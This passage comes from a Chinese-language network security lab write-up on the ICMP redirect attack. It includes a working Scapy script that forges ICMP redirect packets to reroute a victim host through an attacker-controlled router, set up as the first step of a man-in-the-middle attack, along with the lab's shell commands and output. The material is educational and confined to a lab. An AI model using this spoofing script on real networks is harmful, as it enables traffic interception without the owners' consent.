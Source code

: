 此时查看 victim 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![Launching ICMP Redirect Attack 路由改变失败](/assets/post/images/icmp6.webp)

可以看到，也失败了。

## Task 2: Launching the MITM Attack

先把所有东西改回原样。

关闭转发：

```dockerfile
- net.ipv4.ip_forward=0
```

保持 victim ping `192.168.60.5：`

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

编写 `icmp.py：`

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.111'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```
